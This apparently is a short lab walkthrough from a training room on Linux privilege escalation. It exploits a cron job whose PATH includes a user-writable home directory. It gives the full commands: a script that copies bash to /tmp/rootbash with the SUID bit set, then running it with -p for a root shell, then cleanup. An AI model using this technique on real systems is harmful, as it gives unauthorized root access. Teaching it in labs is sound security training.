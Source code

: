# PATH Environment Variable

View the contents of the system-wide crontab:\


`cat /etc/crontab`

Note that the PATH variable starts with **/home/user** which is our user's home directory.

Create a file called **overwrite.sh** in your home directory with the following contents:

\#!/bin/bash\
\
cp /bin/bash /tmp/rootbash\
chmod +xs /tmp/rootbash

Make sure that the file is executable:

`chmod +x /home/user/overwrite.sh`

Wait for the cron job to run (should not take longer than a minute). Run the /tmp/rootbash command with -p to gain a shell running with root privileges:

`/tmp/rootbash -p`

Remember to remove the modified code, remove the /tmp/rootbash executable and exit out of the elevated shell before continuing as you will create this file again later in the room!

`rm /tmp/rootbash`\
`exit`
